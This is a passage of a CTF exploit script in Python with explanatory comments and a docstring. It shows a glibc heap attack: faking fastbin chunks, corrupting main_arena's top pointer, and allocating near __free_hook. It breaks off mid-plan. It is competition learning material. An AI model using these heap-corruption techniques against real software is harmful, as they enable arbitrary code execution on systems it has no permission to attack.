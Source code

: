 ```python
'''
This next step is just crazy. I had no idea how to go about getting a chunk on malloc_hook
due to the 0x58 allocation size constraint. Getting a chunk on __free_hook was out of the
question. I spent about a day trying to do a version of the House of Orange from HITCON
CTF 2016, but failed to do so due to the size constraints again.

The next day, NotDeGhost from redpwn hinted me towards the fact that poortho (the author of
this challenge) had created a similar challenge before, so I looked him up and found a
couple writeups of his challenge hard_heap from HSCTF-6.

Basically, in the main arena of libc, there is a pointer known as the top pointer that
exists right after the fastbins. This pointer essentially points to the memory address
that gets used whenever the top chunk is used to service allocations. If we can change
this top pointer and have it point to some other memory region, any allocations that
need to use the top chunk will now give us allocations at that memory address.

The only restriction is that this new memory address must look similar to what the top chunk
header looks like.

I first tried to get a chunk on malloc_hook, however none of the one_gadgets worked, so I
had to come up with something else.

NotDeGhost again told me that it is possible to get a chunk on free_hook, and I was
dumbstruck. Took me a while but I realized how to do it.

The solution will amaze you for sure.
'''

# We don't want subsequent allocations to come out of the unsorted bin
# Since we will use our fake chunk a lot, it is guaranteed to be corrupted.
# Any subsequent mallocs will then just crash if the unsorted bin is used
# Therefore, just empty out the unsorted bin here by first changing its size to 0x61
# Then we allocate a 0x58 sized chunk
reintroduce(p64(0) + p64(0x61) + p64(leak) + p64(leak) + p64(0)*9 + p64(0x21))
add(0x58, 'A'*0x58) # 7

# We fake a 0x20 sized chunk and free it. This will be our fake chunk in main_arena.
# The main arena's fastbin[2], which is the 0x20 fastbin, will have a pointer to this chunk.
# Remember this chunk is in the .bss segment, so its address is 0x602040.
reintroduce(p64(0) + p64(0x31) + p64(0x21)*8)
free(6)

# Now we free a 0x61 sized chunk to prepare for the fastbin attack
reintroduce(p64(0) + p64(0x61) + p64(0x21)*18)
free(6)

# This is the address where the 0x602040 address from above looks 16 byte aligned
fake_chunk_top = main_arena + 0x10 - 0x6

# We set our fake chunk's fd pointer to point to our fake chunk in main arena
reintroduce(p64(0) + p64(0x61) + p64(fake_chunk_top) + p64(0))

# Chunk 9 will be in main arena, we overwrite it with free_hook-0x1100+0x70-0x5
# If you look at that address-0x10, it looks like the top chunk header
# So we set the top chunk pointer to that address (free_hook-0x1100+0x70-0x5)
add(0x50, 'B'*0x50) # 8
add(0x50, '\x00'*0x3e + p64(free_hook - 0x1100 + 0x70 - 0x5)) # 9

# Now the next chunk was a test to see if it worked
# This chunk should be placed at free_hook-0x1100+0x70-0x5
add(0x58, 'A'*8) # 10

# Next, my plan was to do enough mallocs so we can reach free_hook from free_hook-0x1100 ...
```